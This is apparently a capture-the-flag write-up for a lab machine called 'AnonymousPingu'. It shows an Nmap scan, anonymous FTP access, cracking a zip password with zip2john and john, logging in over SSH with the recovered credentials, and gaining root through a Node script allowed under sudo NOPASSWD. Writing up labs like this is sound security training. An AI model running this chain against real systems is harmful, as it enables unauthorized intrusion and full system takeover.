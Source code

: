 # AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Node_1.png)

We see what appears the file called secretitopicaron.zip.

Similarly, I scanned the SSH port, but didn't find anything important

## Analyzing "secretitopicaron.Zip"

First we need to extract the hash from the .zip file. we use `zip2jonh` tool:

```ruby
zip2john secretitopicaron.zip > hash.txt
```

Once we have successfully extracted the file, our next step is to attempt to crack the password hash contained in the hash.txt file.

```ruby
john --wordlist=rockyou.txt hash.txt
```

```ruby
secretitopicaron.zip/password.txt:password1:password.txt:secretitopicaron.zip::secretitopicaron.zip
1 password hash cracked, 0 left
```

Finally, we obtain the password, `password1` . Now we can try extract secretetitopicaron.zip.
if we extract the file, we obtain a password file.

```ruby
mario:laKontraseñAmasmalotaHdelbarrioH
```

These are possible credentials for the SSH service.


## Intrusion

If we use the new credentials, we can access the SSH service.

![alt text](Imagenes/Node_2.png)


## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for mario on 0730eda13522:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0730eda13522:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js

```

We can see that we can execute the script in /home/mario, so we can try to edit this file to spawn a shell with root privileges.


Therefore, we need to edit the script with the following code:

```ruby
const { execSync } = require('child_process');
execSync('/bin/bash', {stdio: 'inherit'});

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo /usr/bin/node /home/mario/script.js
```
![alt text](Imagenes/Node_3.png)
